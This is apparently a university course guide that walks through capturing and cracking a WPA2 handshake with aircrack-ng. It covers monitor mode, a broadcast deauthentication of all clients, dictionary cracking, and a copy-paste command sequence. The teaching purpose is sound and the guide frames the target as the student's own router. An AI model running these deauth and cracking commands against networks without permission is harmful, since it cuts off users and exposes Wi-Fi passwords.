

# WPA2 Handshake Capture & Crack — aircrack-ng Workflow

Reference for the "known-good" pipeline (Topic 20, CSE406) using
**aircrack-ng suite tools** — this is the baseline that proves your hardware
and target network work, before/alongside the custom Python re-implementation.

Target used below: SSID `Alexander the Great`, AP `5C:62:8B:BA:FD:3E`, channel 4.
Replace with your own values.

---

## Workflow at a glance



Two terminals run concurrently in the middle of the loop: capture (term 1)
stays up throughout, while deauth (term 2) fires while it's still running.
The loop back to step 3/4 is normal — it can take a few deauth rounds before
a client reconnects and the handshake actually lands.

---

## Prepare your test wordlist

Since this is your own router, the fastest way to validate the whole pipeline
is to put **your actual router password** into a small wordlist first — that
proves capture + crack works end-to-end before you ever point it at
`rockyou.txt`. `aircrack-ng` needs a plain-text file, one candidate password
per line.

```bash
# create a wordlist with just your real password
echo "your_actual_router_password" > testlist.txt

# optional: add a few near-misses/common guesses too, still one per line
cat >> testlist.txt << 'EOF'
password123
your_actual_router_password
admin1234
EOF

# sanity-check the file (watch for typos or trailing spaces/blank lines)
cat -A testlist.txt | head
```

Keep this file for the whole exercise — step 6 below points `aircrack-ng -w`
at it. Once it recovers your password from a real capture, you've proven
your tool/pipeline works, and only then is it worth trying `rockyou.txt`
for a genuine dictionary attack.

---

## 0. One-time check

Confirm your wireless card supports monitor mode + packet injection:

```bash
iw list | grep -A 8 "Supported interface modes"   # look for "monitor"
sudo aireplay-ng --test wlan0mon                    # after step 1, checks injection
```

---

## 1. Enable monitor mode

`airmon-ng check kill` stops NetworkManager/wpa_supplicant — they fight the
card for control and reset the channel otherwise. **Your internet drops
here**; that's expected, restored in the last step.

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0        # creates wlan0mon
iw dev wlan0mon info              # confirm: type monitor
```

---

## 2. Find the target AP

```bash
sudo airodump-ng wlan0mon
```

Note down, then `Ctrl+C`:
- **BSSID** (AP MAC)
- **CH** (channel)
- **ESSID** (network name — also the PBKDF2 salt later)

If the SSID is broadcast from multiple BSSIDs (mesh / dual-band), note all
of them — you need the one your target client is actually associated to.

---

## 3. Capture on that BSSID/channel only

```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```

- `-w capture` → writes `capture-01.cap`, `capture-02.cap`, ... (numbered per run)
- Leave this running in its own terminal. Watch the **STATION** list at the
  bottom for connected clients (their MACs) — you'll deauth one of these.

---

## 4. Deauth all connected clients (second terminal)

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

- `-a` = AP (BSSID); omitting `-c` broadcasts the deauth to **every** client
  currently associated to that AP, not just one
- This forces all of them to disconnect and reconnect, which re-triggers the
  WPA2 4-way handshake for each — captured by the airodump-ng session in step 3
- Trade-off vs. targeting one client (`-c <CLIENT_MAC>`): broadcast disrupts
  every device on the AP for the duration, and some modern clients ignore
  broadcast deauths outright (they only react to a deauth addressed to their
  own MAC) — so this can take more retries even though it aims wider. If it
  doesn't trigger a handshake after a few rounds, fall back to targeting a
  specific STATION MAC from the list below with `-c`.

**Identifying/confirming a STATION MAC as a specific device** (phones use
randomized MACs per network, so it won't match the "hardware MAC" in general
settings) — useful if you need to fall back to targeting one client:
- Android: Settings → Network & Internet → tap the network → "Randomized MAC" / "Random MAC"
- iPhone: Settings → Wi-Fi → (i) next to the network → "Wi-Fi Address"
- Or just toggle that device's Wi-Fi off — if the STATION line disappears, it's confirmed

---

## 5. Confirm the handshake was captured

Watch the top-right corner of the **airodump-ng window from step 3**:

```
CH  4 ][ Elapsed: 1 min ][ ... ][ WPA handshake: <BSSID>
```

The `Notes` column for that STATION also shows `EAPOL`. Once you see this:

```bash
# in the airodump-ng terminal:
Ctrl+C

# confirm the file exists
ls -la capture*.cap
```

Use the highest-numbered `.cap` file — that's the one with your handshake.

---

## 6. Crack it against a wordlist

```bash
sudo aircrack-ng -w <wordlist.txt> -b <BSSID> capture-0N.cap
```

- `-w` = path to wordlist — use the `testlist.txt` you prepared at the top
  first (fastest way to validate the pipeline), then swap in `rockyou.txt`
  for a real dictionary attack once validated
- `-b` = BSSID to crack (needed if the file has more than one AP's data)

Success output:

```
KEY FOUND! [ your_password ]
Master Key     : ...
Transient Key  : ...
EAPOL HMAC     : ...
```

**If it says "Passphrase not in dictionary":**
- `cat <wordlist.txt>` — check the real password is actually in there, no
  typos/trailing spaces, and it's 8–63 characters (WPA2-PSK minimum)
- Confirm you're pointing at the `.cap` file that has the handshake in it

**If it says "No valid WPA handshakes found"** despite airodump showing one:
the capture may only have partial EAPOL frames — recapture.

---

## 7. Restore normal networking

```bash
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
ping -c 3 google.com              # confirm you're back online
```

---

## Full command sequence (copy-paste, edit the placeholders)

```bash
# --- setup ---
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# --- recon ---
sudo airodump-ng wlan0mon
# note BSSID, channel, ESSID, then Ctrl+C

# --- targeted capture (terminal 1) ---
sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon

# --- deauth all clients on the AP (terminal 2, while terminal 1 is running) ---
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon

# --- once "WPA handshake: <BSSID>" appears in terminal 1 ---
Ctrl+C
ls -la capture*.cap

# --- crack ---
sudo aircrack-ng -w testlist.txt -b <BSSID> capture-0N.cap

# --- teardown ---
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

---

## What each artifact maps to (for the custom-code deliverable)

| aircrack-ng output      | What your own tool must reproduce                              |
|--------------------------|------------------------------------------------------------------|
| `Master Key`            | PMK = `PBKDF2-HMAC-SHA1(passphrase, ssid, 4096, 32)`             |
| `Transient Key`         | PTK = PRF-512 expansion (PMK + "Pairwise key expansion" + sorted MACs + sorted nonces); first 16 bytes = KCK |
| `EAPOL HMAC`            | MIC = `HMAC-SHA1(KCK, EAPOL-frame-with-MIC-zeroed)[:16]` (WPA2/CCMP) — or HMAC-MD5 for old WPA/TKIP |
| `KEY FOUND!`            | Your MIC computation matches the captured MIC → correct password |

Save the working `.cap` file — it's your reproducible test fixture. You can
re-run the crack offline against it any time without touching the radio,
which is exactly what the project's "reproducible demo" requirement wants.
